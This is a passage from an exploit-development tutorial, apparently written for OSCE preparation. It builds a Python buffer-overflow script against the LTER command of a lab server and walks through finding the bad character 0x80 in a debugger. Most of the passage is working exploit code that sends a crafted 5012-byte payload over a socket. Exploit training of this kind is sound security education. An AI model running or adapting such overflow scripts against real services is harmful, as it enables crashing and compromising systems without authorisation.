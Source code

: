 ```python
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = badchars
buffer += "A" * (5012 - len(badchars))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Once we send this and the application crashes, we have to select one of the overwritten registers, I used EBP, and then right-click > follow in dump. We see that every thing was going really well until right after `7F` where we were expecting to see `80` but instead see a `01`. 

![](/assets/images/CTP/LTERBad80.JPG)

A good habit we should start enforcing is adding some helpful comments to our python code as we progress so that we can start to eliminate some careless mistakes. Let's start:
+ annotating bad chars,
+ annotating shellcode lengths,
+ annotating the payload or `msfvenom` command used to generate the shellcode, and
+ annotating egghunter lengths (if needed).

Let's eliminate `80` from our badchars variable since it's trash and it's trying to ruin our day and our exploit and our chance at OSCE glory. Our exploit now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = badchars
buffer += "A" * (5012 - len(badchars))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```